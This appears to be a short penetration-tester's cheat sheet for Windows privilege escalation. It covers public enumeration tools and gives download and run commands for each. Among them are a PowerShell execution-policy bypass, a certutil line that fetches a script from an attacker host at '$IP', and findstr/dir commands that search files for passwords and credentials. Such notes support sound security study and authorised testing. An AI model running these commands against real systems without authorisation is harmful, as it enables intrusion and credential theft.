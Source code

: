 
- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
 - WinPEAS
   - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
 - Windows Exploit Suggester
   - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
   - Download `wget https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py`
   - Run `systeminfo` on the target Windows machine and save the output in a txt file.
   - `python3 windows-exploit-suggester.py --update`
   - `python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
   - Grep 'Elevation' `./windows-exploit-suggester.py –database 2015-09-22-mssb.xlsx –systeminfo systeminfo_1.txt | grep 'Elevation'`

- Search for passwords

    ```
      findstr /si password *.txt
      findstr /si password *.xml
      findstr /si password *.ini

      #Find all those strings in config files.
      dir /s *pass* == *cred* == *vnc* == *.config*

      # Find all passwords in all files.
      findstr /spin "password" *.*
      findstr /spin "password" *.*
    ```
